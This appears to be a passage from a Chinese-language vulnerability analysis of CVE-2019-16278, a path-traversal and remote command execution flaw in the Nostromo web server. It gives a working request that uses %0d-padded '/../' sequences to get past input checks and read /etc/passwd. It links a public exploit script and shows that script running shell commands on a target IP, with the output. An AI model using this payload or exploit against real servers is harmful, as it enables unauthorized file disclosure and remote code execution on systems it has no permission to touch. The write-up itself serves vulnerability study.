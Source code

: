 根据上述的代码分析可知，可以在`/../`字符串中插入回车符号绕过http_verify函数的检测，然后程序会在strcutl函数里面自动把回车符号删除恢复原本语义，构造poc如下：

```
GET /..%0d/..%0d/..%0d/..%0d/..%0d/..%0d/etc/passwd HTTP/1.1 
```

测试结果如下，成功读取etc/passwd文件内容

![14.png](img/9c23d89c59ba52243731a083bbb9f746.png)

### poc

> https://github.com/ianxtianxt/CVE-2019-16278/

```
➜  Downloads python nostromo.py 114.114.114.114 8080 pwd
/bin
➜  Downloads python nostromo.py 114.114.114.114 8080 id
uid=65534 gid=65534
➜  Downloads python nostromo.py 114.114.114.114 8080 "ls -al"
drwxr-xr-x    2 0        0                0 Apr 12  2013 .
drwxr-xr-x   16 0        0                0 Jan  1  1970 ..
lrwxrwxrwx    1 0        0                7 Apr 12  2013 ash -> busybox 
```

### poc分析

该漏洞最初公布的poc可以达到远程命令执行的效果，如下所示

![20.png](img/9199cca5ffdd4bb2a2e9124b1f0d7225.png)
